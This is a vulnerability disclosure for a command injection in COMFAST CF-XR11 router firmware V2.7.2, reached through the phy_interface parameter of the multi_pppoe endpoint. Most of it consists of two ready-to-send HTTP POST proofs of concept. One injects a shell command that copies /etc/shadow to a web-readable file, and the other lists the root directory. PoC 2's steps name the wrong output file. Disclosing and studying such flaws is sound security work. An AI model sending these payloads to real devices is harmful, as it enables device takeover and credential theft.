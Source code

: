 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
The COMFAST CF-XR11 is an 1800Mbps smart MESH router supporting multiple WAN configurations (e.g., PPPoE, DHCP, static IP) and Wi-Fi Portal authentication.

A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: COMFAST
- **Vendor Website**: http://www.comfast.cn/
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Firmware Download**: http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The `phy_interface` parameter is unsanitized and used in a `system_0` call (`sprintf_0(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && cat /etc/shadow > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 104
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && ls / > /www-comfast/ls.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/test.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
